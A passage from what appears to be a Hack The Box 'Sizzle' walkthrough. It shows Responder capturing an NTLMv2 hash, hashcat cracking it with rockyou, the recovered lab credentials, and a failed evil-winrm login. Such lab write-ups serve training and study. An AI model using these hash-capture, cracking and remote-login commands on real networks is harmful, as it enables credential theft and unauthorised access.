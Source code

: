 - Set up Responder:

```bash
sudo ./Responder.py -I tun0

```

![image6](../resources/a27ebb6119c241cab4de2e92c023a775.png)

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

```

![image7](../resources/ad3062e659d041e28692b4b27e2076f3.png)

- We have credentials:
**Amanda : Ashare1972**


![image8](../resources/af02e649940645b0a6733cdb18143161.png)

- Trying to connect via winrm fails - but it gives an error message:

```bash
evil-winrm -i sizzle.htb.local -u amanda -p Ashare1972

```

![image9](../resources/d5c89499816047dcb58b14b2666ae1b5.png)
